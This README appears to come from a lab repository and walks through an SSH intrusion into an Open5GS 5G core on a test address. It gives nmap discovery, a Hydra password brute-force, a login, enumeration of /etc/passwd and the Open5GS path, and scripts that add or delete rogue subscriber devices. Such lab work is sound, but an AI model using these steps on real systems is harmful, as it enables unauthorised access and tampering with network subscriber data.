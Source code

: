 # SSH Intruision

In this example the core network (running on 10.0.2.4) has an ssh server running to give admins remote access. The goal is for an attacker to discover this server, get access, and adjust the registered User epuipments as they like.

## Step One - Discovery

First the SSH server has to be discovered, this will be done with [Nmap](https://nmap.org/).
``` console
user@ue:~$ sudo nmap -p ssh 10.0.2.4 #check ssh
```
Resulting in the output:
``` console
```

## Step Two - Bruteforce

To connect to the server we need the login information of a user. For this we will use [Hydra](https://www.kali.org/tools/hydra/) which uses the list of most common passwords and usernames to try to find functioning pair of login data.
``` console
user@ue:~$ hydra -I -L ../Lists/Username_list.txt -P ../Lists/Password_list.txt 10.0.2.4 ssh -t 4
```
Resulting in the output:
``` console
```
## Step Three - Access

Now that we have access to the server we log in useing the password and username we found in the above step.
``` console
user@ue:~$ ssh admin@10.0.2.4
```

## Step Four - Poking about

Now that we are in the machine, we want to check where we can find core services running also if there might be other users on the machine.
``` console
admin@core:~$ otheruser=$(grep -w -v -e "nologin" -e "bin/false" -e "admin" -e "root" -e "sync" /etc/passwd | cut -d ":" -f 1)
admin@core:~$ echo "there is another user:  ${otheruser}"
admin@core:~$ path_to_open_5gs=$(find / -type d -name "open5gs" | head -n 1)
admin@core:~$ echo ${path_to_open_5gs}
admin@core:~$ cd ${path_to_open_5gs}
```
Resulting in the output:
``` console
```
Once we have the path of Open5gs we can use the python API to delete and or add subscribed UE's. To see the procces for that please refer to files [create_rogue_ue.sh](./create_rogue_ue.sh) and [delete_rogue_ue.sh](./delete_rogue_ue.sh)

## Step Five - Put it all together

To do all the following:

1. Scan for an ssh server.
2. Brutforce login.
3. Add a rogue UE with a Rogue Slice in the core.
4. Connect that rogue UE to the core. (in the works)
5. Delete the rogue UE and slice.

run the following:

```console
user@ue:~$ ./ssh_rogue.sh
```

